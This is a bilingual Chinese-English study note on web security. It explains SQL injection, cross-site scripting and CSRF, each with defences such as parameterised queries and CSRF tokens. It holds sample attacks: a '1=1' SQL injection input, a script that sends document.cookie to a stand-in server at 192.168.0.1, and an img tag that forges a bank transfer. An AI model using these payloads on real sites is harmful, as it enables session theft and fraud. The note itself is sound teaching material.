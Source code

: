 # 网络安全

## SQL注入 SQL Injection {#sql注入}

```javascript
txtUserId = getRequestString("UserId");
txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
```

 Look at the example above again. The original purpose of the code was to create an SQL statement to select a user, with a given user id.

if the user enter 105 OR 1=1

```sql
SELECT * FROM Users WHERE UserId = 105 OR 1=1;
```

 A hacker might get access to all the user names and passwords in a database, by simply inserting 105 OR 1=1 into the input field.

SQL Injection Based on ""="" is Always True  
SQL Injection Based on 1=1 is Always True

To protect a web site from SQL injection, you can use SQL parameters.

### 防御措施

#### Input validation

#### Use SQL Parameters for Protection

The SQL engine checks each parameter to ensure that it is correct for its column and are treated literally, and not as part of the SQL to be executed.

Nodejs sequlize replacement 

```javascript
function findItems(req, resp)
{
  try {
    // Find the relevant items
    sequelize.query(
      "SELECT Desc FROM Items WHERE Desc like ?",
      { replacements: ['%'+req.params.snippet+'%'],
        type: sequelize.QueryTypes.SELECT }
    ) // Retrieve results
    .spread(function(results, metadata) {
        // Add results to response
     });
  } catch {
    // Handle error
  }
}
```

## XXS  跨站脚本攻击 {#firstHeading}

程序员没有对传入的参数做检查，比如提交一个表单

```text
helloworld
<script type=text/javascript>window.location = 
"http://192.168.0.1:8080/cookie.php?cookie="+document.cookie</script>

```

这代码可以将用户的cookie信息上传到指定的服务器

### 防御措施

防范xss的关键是过滤所有的‘&lt;’和‘&gt;’字符，确保从后端而来的数据并不带有任何的html标签，xss的危险在于有不可预料的前端脚本，但是值得注意的是，不单只有script标签是可以运行脚本的，任何的html标签都可以加上类似onclick，onload这样的事件也都可以运行脚本，所以需要过滤所有的‘&lt;’和‘&gt;’字符。

* [Node.js](https://zh.wikipedia.org/wiki/Node.js)的node-validator。

## **CSRF** 跨站请求伪造 {#firstHeading}

 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法

 跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞

假如一家银行用以执行转账操作的URL地址如下： [http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)

那么，一个恶意攻击者可以在另一个网站上放置如下代码： &lt;img src="[http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman](http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman)"&gt;

如果有账户名为Alice的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000资金。

### 防御措施

#### 检查Referer字段

HTTP头中有一个Referer字段，这个字段用以标明请求来源于哪个地址。在处理敏感数据请求时，通常来说，Referer字段应和请求的地址位于同一域名下。以上文银行操作为例，Referer字段地址通常应该是转账按钮所在的网页地址，应该也位于www.examplebank.com之下。而如果是CSRF攻击传来的请求，Referer字段会是包含恶意网址的地址，不会位于www.examplebank.com之下，这时候服务器就能识别出恶意的访问。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的Referer字段。虽然http协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其Referer字段的可能。

#### 添加校验token

由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在cookie中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再执行CSRF攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求时，这个伪乱数也一并提交上去以供校验。正常的访问时，客户端浏览器能够正确得到并传回这个伪乱数，而通过CSRF传来的欺骗性攻击中，攻击者无从事先得知这个伪乱数的值，服务器端就会因为校验token的值为空或者错误，拒绝这个可疑请求。

